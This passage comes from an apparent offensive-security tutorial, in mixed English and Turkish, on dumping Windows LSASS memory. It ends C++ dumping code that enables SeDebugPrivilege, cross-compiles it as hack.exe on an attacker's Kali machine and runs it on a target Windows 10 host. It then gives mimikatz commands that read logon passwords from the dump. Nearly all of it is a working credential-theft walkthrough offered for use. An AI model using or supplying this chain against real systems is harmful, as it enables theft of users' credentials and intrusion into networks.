```cpp
  } 
  return dumped; 
}

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;
}
```

As you can see, do not forget to add `dbghelp.lib` as a dependency:     

Gördüğünüz gibi,` dbghelp.lib` dosyasını bağımlılık olarak eklemeyi unutmamalısınız:    

```cpp
#pragma comment (lib, "dbghelp.lib")
```

### demo

Şimdi her şeyin nasıl çalıştığını görelim. Döküm aracımızı saldırganın makinesinde (`kali x64`) derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

![av-evasion](./images/95/2023-05-11_15-32.png){width="80%"}      

Ardından, bunu hedef makinede (benim durumumda `Windows 10 x64`) çalıştırın:     

```powershell
.\hack.exe
```

![av-evasion](./images/95/2023-05-11_16-05.png){width="80%"}      

Gördüğünüz gibi, `lsass.dmp` dosyası çalışma dizinine (`C:\\temp\\`) dökülmüş durumda.       

Sonrasında, `mimikatz`'i yükleyerek döküm dosyasını açabilir ve şifreleri dökebilirsiniz:

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

![av-evasion](./images/95/2023-05-11_16-28_1.png){width="80%"}      

![av-evasion](./images/95/2023-05-11_16-28.png){width="80%"}      
